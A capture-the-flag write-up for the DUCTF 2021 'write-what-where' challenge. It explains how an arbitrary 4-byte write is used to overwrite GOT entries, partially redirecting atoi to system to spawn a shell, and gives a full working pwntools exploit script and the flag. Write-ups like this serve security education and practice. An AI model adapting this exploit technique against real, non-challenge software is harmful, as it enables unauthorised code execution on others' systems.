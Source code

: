 # write-what-where

## Challenge

We have an arbitrary 4 byte write anywhere and no leaks.

### Mitigations

```
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

Because PIE is disabled, and the program is not full RELRO, we can overwrite the GOT entry for `exit` with the address of `main`, which will restart the program instead of exiting.

Now the `atoi` GOT entry will be resolved to a libc address, as it has been called in this first loop.

On the second loop, we can overwrite the least significant 2 bytes of the `atoi` GOT entry.
This will also overwrite the most significant bytes of an adjacent entry, but we know that these bytes will be zeros, so we can send zeros for these to prevent a segfault.

The `system` function is close to the `atoi` function in libc and the addresses differ by less than 2 bytes.
If we overwrite `atoi` will `system`, the program will call `system` with our input in the next loop.

On the third loop, we send `/bin/sh\x00` when the program asks where we want to write to.
This will spawn a shell and allow us to read the flag file.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host pwn-2021.duc.tf --port 31920 write-what-where
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('write-what-where')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'pwn-2021.duc.tf'
port = int(args.PORT or 31920)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

print(hex(libc.sym['system']))
print(hex(libc.sym['atoi']))

while True:
    io = start()

    io.sendafter(b'what?', p32(exe.sym['main']))
    io.sendafter(b'where?', str(exe.got['exit']).encode())

    overwrite = p16(libc.sym['system'] & 0xffff).rjust(4, b'\x00')
    print(overwrite)
    io.sendafter(b'what?', overwrite)
    io.sendafter(b'where?', str(exe.got['atoi'] - 2).encode())

    io.sendafter(b'what?', b'aaaa')
    io.sendafter(b'where?', b'/bin/sh\x00')

    io.clean(1)

    if io.connected('read'):
        break
    else:
        io.close()

io.interactive()
```

## Flag

`DUCTF{arb1tr4ry_wr1t3_1s_str0ng_www}`

